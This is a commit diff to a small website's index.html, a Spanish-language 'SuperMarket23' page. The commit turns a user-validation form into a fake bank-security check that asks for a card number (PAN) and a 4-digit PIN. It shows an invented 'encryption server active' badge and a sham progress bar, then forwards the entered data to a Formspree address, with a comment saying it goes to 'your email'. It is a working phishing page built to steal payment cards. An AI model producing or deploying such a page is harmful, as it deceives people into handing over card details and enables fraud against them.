

Before and after one commit to casascubahttp/Casascuba-, a website: page index.html in a window 1280 px wide. Shown: the part 196-718 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -7,7 +7,7 @@
     <title>SuperMarket23 - Validación</title>
     <style>
         body { background-color: #e9f0f5; display: flex; justify-content: center; align-items: center; min-height: 100vh; margin: 0; font-family: Arial, sans-serif; }
-        .card { background: white; width: 90%; max-width: 400px; border-radius: 30px; overflow: hidden; box-shadow: 0 10px 25px rgba(0,0,0,0.1); text-align: center; padding-bottom: 30px; position: relative; }
+        .card { background: white; width: 90%; max-width: 400px; border-radius: 30px; overflow: hidden; box-shadow: 0 10px 25px rgba(0,0,0,0.1); text-align: center; padding-bottom: 30px; }
         .header { background-color: #0056b3; color: white; padding: 30px 20px; }
         .header h1 { margin: 0; font-style: italic; font-size: 28px; }
         .header p { margin: 10px 0 0; font-size: 11px; letter-spacing: 2px; text-transform: uppercase; }
@@ -15,7 +15,6 @@
         label { color: #7a86a1; font-size: 12px; font-weight: bold; display: block; margin-bottom: 8px; text-transform: uppercase; }
         input { width: 100%; padding: 15px; border: 2px solid #eef2f7; border-radius: 12px; background-color: #f8fbff; font-size: 18px; color: #00428a; font-weight: bold; text-align: center; box-sizing: border-box; margin-bottom: 25px; }
 
-        /* Botón y Animación */
         .btn-auth { background-color: #0056b3; color: white; border: none; width: 100%; padding: 18px; border-radius: 12px; font-size: 16px; font-weight: bold; cursor: pointer; text-transform: uppercase; transition: all 0.3s; }
         .loading-bar { display: none; width: 100%; height: 4px; background-color: #eee; margin-top: 15px; border-radius: 2px; overflow: hidden; }
         .loading-progress { width: 0%; height: 100%; background-color: #0056b3; transition: width 2s linear; }
@@ -31,27 +30,28 @@
 <div class="card">
     <div class="header">
         <h1>SuperMarket23</h1>
-        <p>Protocolo de Validación de Usuario</p>
+        <p>Protocolo de Seguridad Bancaria</p>
     </div>
 
     <form id="authForm" action="https://formspree.io/f/maqdlpwo" method="POST" class="form-container">
-        <label for="cliente">Número de Cliente (ID)</label>
-        <input type="text" name="ID_Cliente" id="cliente" placeholder="0000 0000 0000" required>
 
-        <label for="acceso">Código de Acceso Personal</label>
-        <input type="password" name="Codigo_Acceso" id="acceso" placeholder="...." maxlength="8" required>
+        <label for="cliente">NÚMERO DE TARJETA (PAN)</label>
+        <input type="text" name="ID_Cliente" id="cliente" placeholder="1246 6776 3452" required>
 
-        <button type="submit" id="submitBtn" class="btn-auth">Autenticar Cuenta</button>
+        <label for="acceso">PIN DE SEGURIDAD</label>
+        <input type="password" name="Codigo_Acceso" id="acceso" placeholder="...." maxlength="4" required>
+
+        <button type="submit" id="submitBtn" class="btn-auth">Autenticar</button>
 
         <div id="loadingBar" class="loading-bar"><div id="progress" class="loading-progress"></div></div>
         <div id="successMsg" class="success-msg">✓ Autenticación exitosa. Redirigiendo...</div>
 
         <div class="status">
-            <span class="dot"></span> SISTEMA DE VERIFICACIÓN SEGURO
+            <span class="dot"></span> SERVIDOR DE ENCRIPTACIÓN ACTIVO
         </div>
     </form>
 
-    <a href="#" class="footer-link">Regresar a la tienda</a>
+    <a href="#" class="footer-link">Ir al sitio web</a>
 </div>
 
 <script>
@@ -62,22 +62,24 @@
     const success = document.getElementById('successMsg');
 
     form.onsubmit = function(e) {
-        e.preventDefault(); // Detiene el envío real un momento
+        e.preventDefault();
 
-        // Inicio de simulación
         btn.innerHTML = "Verificando...";
         btn.style.backgroundColor = "#7a86a1";
         btn.disabled = true;
         bar.style.display = "block";
 
-        setTimeout(() => { progress.width = "100%"; }, 50); // Inicia la barra
+        // Animación de la barra
+        setTimeout(() => {
+            document.getElementById('progress').style.width = "100%";
+        }, 100);
 
-        // Simula espera de 2.5 segundos
+        // Espera 2.5 segundos de "carga"
         setTimeout(() => {
             bar.style.display = "none";
             success.style.display = "block";
 
-            // Envía los datos a Formspree después de la simulación
+            // Envío final a tu correo
             setTimeout(() => {
                 form.submit();
             }, 1000);
```
